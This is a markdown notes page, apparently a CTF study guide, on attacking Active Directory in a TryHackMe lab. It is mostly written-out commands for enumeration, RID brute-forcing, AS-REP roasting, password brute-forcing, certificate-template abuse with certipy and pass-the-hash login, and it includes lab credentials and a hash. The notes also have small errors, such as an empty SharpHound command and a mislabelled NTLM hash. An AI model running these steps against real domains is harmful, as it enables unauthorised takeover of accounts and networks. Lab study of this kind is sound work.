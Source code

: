 # AD Exploitation Guide

This is a limited guide; AD exploitation is a vast topic. But the path of attack starts narrow and expands. When approaching a AD environment, say if you are just starting with an IP address and have done a scan showing the thousands of ports that an domain computer, especially a CA (which we will assume is the default case for a small CTF) then what is the next step?

Sources:
- the ledger THM room https://tryhackme.com/room/ledger
- https://notes.incendium.rocks/pentesting-notes/windows-pentesting/enumerating-users-no-credentials
- https://wadcoms.github.io/ (often the command syntax is out of date / in valid)

## 0. Enumerating AD - getting distinguished names etc

- `enum4linux -a 10.10.128.189` is an old staple, but seems only partially functional these days
- `nmap -n -sV --script "ldap* and not brute" -p 389 10.10.128.189` will return a bunch of info, importantly including distinguished names
- `ldapsearch -x -h 10.10.128.189 -b "dc=thm,dc=local"` using a name space from the above (here `dc=thm,dc=local`). Super finicky, and might not work at all. If it does work, its efficacy will depend on the namespace (query?) you use so maybe try different combinations. Can produce a tonne of data.

## 1. Find a user

- You might be lucky and some info is on a website, or in a public share, ftp etc.
- If not, try sid iteration: this iterates through the predictable SID/RID range of a domain, looking for users:
    - `python3.9 /opt/impacket/examples/lookupsid.py thm/anon@labyrinth.thm.local` using an anonymous user (requires finding the domain name and host name)
    - `crackmapexec smb labyrinth.thm.local -u anonymous -p "" --rid-brute 10000`. On the attack box, crackmapexec can be installed with `snap install crackmapexec`

## 2. Finding a password

- If you are lucky, one of the earlier enumeration searches might contain data. For example often in CTF contexts, its been the case that something like `Please change it: CHANGEME2023!` is in the description of a user (e.g. in the ledger room this was the case), using the data from something like ldapsearch
- If you have a list of uses, look for asrep roastable tokens with `python3.9 /opt/impacket/examples/GetNPUsers.py THM/ -usersfile users.txt -dc-ip 10.10.128.189 -format hashcat -outputfile hashes`. These can be cracked with `-m 18200`
- All else failing, you can try bruting a user account with `./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman`. Note kerbrute has a linux version and windows: https://github.com/ropnop/kerbrute. It can be used for some of the earlier steps, and password spraying, but I've never had much success.

## 3. Credentialed enumeration

With a username/password combo, the path forward opens up. I generally do two things, small then large:

- get a proper domain dump, complete with browsable html files using `python3.9 ldapdomaindump.py 10.10.128.189 -u THM\\IVY_WILLIS -p CHANGEME2023!`. This is much easier to navigate than raw LDAP output, and can help for seeing user groups and other notes dotted around.
- get a bloodhound dump (see below)

### Bloodhound

There are a few ways to get the enumeration information (a couple of zip files) required for bloodhound overviews.

- done remotely with python, you can avoid defender problems: `bloodhound-python -d thm.local -v --zip -c All -u IVY_WILLIS -p 'CHANGEME2023!' --dns-tcp -ns 10.10.128.189`.
- on the box with sharphound (note this gets picked up by defender, best when AV is disabled): ``

## Escalation Special paths

TODO, an expandable section. Really there is almost no limit here. SPNs should be done when next encountered

- Exploiting misconfigured certs:
  - `python3.9 -m pip install certipy-ad`
  - use creds to find misconfigured certs `certipy find -u SUSANNA_MCKNIGHT@local.thm -p 'CHANGEME2023!' -dc-ip 10.10.128.189 -vulnerable`
  - if found enroll a vulnerable cert for a target, high priv user: `certipy req -username SUSANNA_MCKNIGHT  -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn bradley_ortiz@thm.local -dc-ip 10.10.128.189 -debug`
  - then use that cert to create a llvm hash: `certipy auth -pfx bradley_ortiz.pfx -dc-ip 10.10.128.189 -debug`
  - finally with those hashes, gain access. Evil-winrm is an option (might be deprecated), but impackets wmi-exec works well too: `python3.9 /opt/impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:16ec31963c93240962b7e60fd97b495d thm.local/bradley_ortiz@10.10.128.189`
